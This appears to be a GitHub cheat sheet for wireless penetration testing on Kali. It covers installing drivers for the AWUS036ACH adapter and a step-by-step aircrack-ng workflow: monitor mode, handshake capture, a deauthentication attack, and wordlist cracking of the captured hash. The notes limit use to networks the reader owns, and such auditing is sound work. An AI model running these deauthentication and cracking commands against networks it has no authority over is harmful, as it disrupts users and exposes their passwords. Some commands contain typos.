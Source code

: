 # Wireless Penetration Testing

## Installing Drivers AWUS036ACH on Kali 2022.2

```
sudu su
apt-get update
apt-get upgrade
apt-get dist-upgrade
reboot
apt-get install realtek-rtl88xxau-dkms
apt-get install dkms
git clone https://github.com/aircrack-ng/rtl8812au.git
cd rtl8812au/
make
make install
```

## Check if adapter is on
```
airmon-ng
```

## Check other services
```
airmon-ng check
```

## Check kill services (could interfere with monitor mode)
```
airmon-ng check kill
```

## Check if adapter is available
```
iwconfig
```

## Start airmon-ng <interface>
```
airmon-ng start wlan0
iwconfig

At this point, should see our wlan0 card in monitor mode (wlan0mon)
```

## See what Access Points are running
```
airodump-ng wlan0
Ctrl + C to stop
```

## Capture Handshake
- **(NOTE: This is for testing purposes only, do NOT capture for wireless networks that you don't own)**

```
airodump --bssid <mac address of ap> --channel <id> wlan0 --output-format pcap --write <name of pcap>
```

## Deauthentication Attack
- **(NOTE: This is for testing purposes only, do NOT capture for wireless networks that you don't own)**
```
aireplay-ng -0 1 -a <mac addredss of ap> -c <mac address of client> wlan0
```

## Stop airomon-ng <interface>
```
airmon-ng stop wlan0
```

## Audit password strength of captured network hash
- **(NOTE: This is for testing purposes only, do NOT capture for wireless networks that you don't own)**
```
aircrack-ng <name of pcap> -w /usr/share/wordlists/rockyou.txt
```